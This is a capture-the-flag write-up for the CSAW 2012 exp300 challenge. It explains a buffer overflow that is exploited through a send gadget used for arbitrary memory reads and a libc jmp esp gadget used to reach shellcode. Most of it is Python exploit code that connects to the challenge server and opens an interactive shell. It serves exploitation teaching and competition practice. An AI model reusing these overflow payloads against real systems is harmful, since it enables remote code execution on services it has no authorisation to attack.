 ```yaml
---
title: CSAW Quals 2012 &mdash; exp300
layout: post
authors:
  - Alex Reece <awreece>
categories:
  - Pwn
ctf: CSAW CTF Quals
year: 2012
---
```

## Overview

[聊天][1] is an Linux x86 binary that uses signal handlers to print a bunch of Chinese before overflowing a buffer. With a send gadget giving us an arbitrary read, we can find a `jmp esp` in libc and jump to our shellcode on the (executable) stack.

<!--more-->

## Writeup

We reverse the binary, and see that main forks, drops privileges, and then raises signals until eventually the function below is called.

We have a buffer overflow and hence control of `eip`, but unfortunately nothing else. Luckily, there is a call to `send` elsewhere in the code (that also loads the correct `fd`, etc for us).

This works for us, since `edx = 0x800` at the return of our vulnerable function. We thus have a way to read `0x800` bytes from an arbitrary memory address

```
#!/usr/bin/python
import struct
import socket
import telnetlib
import sys
import string

def read_mem(addr):
        print "Sleeping before reading %x" % addr
        time.sleep(.5)
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('128.238.66.218', 4842))
        # s.connect(('127.0.0.1', 4842))
        f = s.makefile('rw', bufsize=0)

        send_buf = 0x804890e

        payload = (
                "A"*326 +
                struct.pack('I', send_buf) +
                "AAAA"*11 +
                struct.pack('I', addr) +
                "BBBB"
        )

        f.write(payload)
        x = f.read(116)
        f.flush()

        buf = f.read(0x800)
        f.close()

        return buf
```

Our general strategy at this point will be: read the GOT entries to find a libc address, then search in libc for a `jmp esp` gadget, then use that to return to our shellcode (`jmp esp` works since we know that NX is disabled). Here is the solution:

```
#!/usr/bin/python
import struct
import socket
import telnetlib
import sys
import string

def find_jmp_esp():
        gots = read_mem(0x804B000)  # The offset of the got entries.

        setsockopt = struct.unpack('I', gots[:4])[0]
        libc_guess = setsockopt - 0xEC6D0  # Where setsockopt is located on my ubuntu machine.

        buf_base = libc_guess - (libc_guess % 0x1000)

        buf = read_mem(buf_base)
        while buf:
                jmp_esp = buf.find("\xff\xe4")  # jmp esp
                if jmp_esp != -1:
                        return buf_base + jmp_esp
                else:
                        buf_base += len(buf)
                        buf = read_mem(buf_base)

        return 0

def solve(jmp_esp):
        payload = (
                "A"*326 +
                struct.pack('I', jmp_esp)+
                shellcode
        )

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('128.238.66.218', 4842))
        # s.connect(('127.0.0.1', 4842))
        f = s.makefile('rw', bufsize=0)

        f.write(payload)

        t = telnetlib.Telnet()
        t.sock = s
        t.interact()

jmp_esp = find_jmp_esp()

print "Found jmp_esp at %x" % jmp_esp

solve(jmp_esp)
```

 [1]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/exp300.tar.gz
 [2]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/Screen-Shot-2012-10-01-at-2.10.27-PM.png
 [3]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/Screen-Shot-2012-10-01-at-2.32.23-PM.png
